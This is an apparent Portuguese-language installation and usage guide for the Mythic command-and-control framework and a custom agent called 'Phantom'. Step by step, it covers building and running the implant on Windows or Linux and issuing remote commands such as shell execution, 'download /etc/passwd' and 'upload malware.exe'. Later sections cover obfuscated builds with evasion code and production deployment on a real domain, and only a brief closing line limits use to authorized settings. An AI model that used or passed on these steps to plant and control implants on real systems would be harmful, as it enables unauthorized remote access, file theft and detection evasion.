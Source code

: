 # Guia Completo: Instalação e Uso do Phantom no Mythic

## Passo 1: Instalar o Mythic Framework

```bash
# Clone o repositório do Mythic
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# Instalar Docker (se necessário)
sudo ./install_docker_ubuntu.sh

# Instalar perfil C2 HTTP
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http

# Verificar instalação
sudo ./mythic-cli status
```

## Passo 2: Instalar o Agente Phantom

```bash
# Copiar o agente Phantom para o Mythic
sudo cp -r ./Payload_Types/Phantom /caminho/para/mythic/Payload_Types/

# Instalar o payload type
cd /caminho/para/mythic
sudo ./mythic-cli install folder Payload_Types/Phantom

# Verificar se foi instalado
sudo ./mythic-cli status
```

## Passo 3: Iniciar o Mythic

```bash
# Iniciar todos os serviços
sudo ./mythic-cli start

# Verificar status
sudo ./mythic-cli status

# Ver logs (se necessário)
sudo ./mythic-cli logs
```

## Passo 4: Acessar a Interface Web

1. **Abrir navegador**: https://localhost:7443
2. **Login**: mythic_admin
3. **Senha**: Veja nos logs ou use: `sudo ./mythic-cli config get admin_password`

## Passo 5: Criar um Payload Phantom

### Na Interface Web do Mythic:

1. **Ir para "Payloads"** → "Create New Payload"
2. **Selecionar "Phantom"** como Payload Type
3. **Configurar parâmetros**:
   - **server_url**: Sua URL do servidor C2
   - **sleep**: 5 (segundos)
   - **jitter**: 10 (porcentagem)
   - **user_agent**: Deixar padrão ou customizar
   - **aes_key**: Gerar uma chave AES ou deixar vazio
   - **debug**: false (para produção)

4. **Selecionar SO**: Windows ou Linux
5. **Criar payload** → Fazer download

## Passo 6: Usar o Agente

### Executar o Payload:
```bash
# Linux
chmod +x phantom_linux
./phantom_linux

# Windows
phantom_windows.exe
```

### Comandos Disponíveis:
```bash
# Executar comandos shell
shell whoami
shell ls -la
shell dir C:\

# Modificar configurações
sleep 30
jitter 25

# Operações de arquivo
download /etc/passwd
upload malware.exe C:\temp\

# Sair
exit
```

## Passo 7: Monitoramento

### No Mythic Interface:
1. **Active Callbacks**: Ver agentes conectados
2. **Task History**: Histórico de comandos
3. **File Browser**: Arquivos baixados/enviados
4. **Screenshots**: Capturas de tela (se implementado)

## Comandos Úteis do Mythic CLI

```bash
# Status dos serviços
sudo ./mythic-cli status

# Parar serviços
sudo ./mythic-cli stop

# Reiniciar
sudo ./mythic-cli restart

# Ver logs específicos
sudo ./mythic-cli logs mythic_server
sudo ./mythic-cli logs phantom

# Backup
sudo ./mythic-cli database backup

# Atualizar
sudo ./mythic-cli update
```

## Solução de Problemas

### Problema: Agente não conecta
```bash
# Verificar se o servidor está rodando
sudo ./mythic-cli status

# Verificar logs
sudo ./mythic-cli logs mythic_server

# Verificar firewall
sudo ufw status
sudo ufw allow 7443
sudo ufw allow 80
sudo ufw allow 443
```

### Problema: Build falha
```bash
# Instalar dependências Go
sudo apt install golang-go

# Verificar se garble está instalado
go install mvdan.cc/garble@latest

# Build manual
cd Payload_Types/Phantom/agent
go build -o phantom main.go evasion.go
```

### Problema: Permissões
```bash
# Ajustar permissões
sudo chown -R $USER:$USER Payload_Types/Phantom
chmod +x Payload_Types/Phantom/*.sh
```

## Configuração Avançada

### Perfil C2 Customizado:
1. **Editar**: `/opt/Mythic/C2_Profiles/http/c2_code/config.json`
2. **Configurar**:
   - URLs customizadas
   - Headers HTTP
   - Criptografia
   - Certificados SSL

### Build com Máxima Ofuscação:
```bash
cd Payload_Types/Phantom
chmod +x build_script.sh
./build_script.sh
```

### Deployment em Produção:
```bash
# Usar HTTPS com certificado válido
sudo ./mythic-cli config set nginx_use_ssl true
sudo ./mythic-cli config set nginx_cert_path /path/to/cert.pem
sudo ./mythic-cli config set nginx_key_path /path/to/key.pem

# Configurar domínio
sudo ./mythic-cli config set mythic_server_host seu-dominio.com

# Reiniciar com novas configurações
sudo ./mythic-cli restart
```

## Recursos Adicionais

- **Documentação**: https://docs.mythic-c2.net/
- **Discord**: https://discord.gg/mythic
- **GitHub**: https://github.com/its-a-feature/Mythic

## Segurança

⚠️ **IMPORTANTE**: 
- Use apenas em ambientes autorizados
- Configure firewall adequadamente
- Use HTTPS em produção
- Faça backups regulares
- Monitore logs de segurança
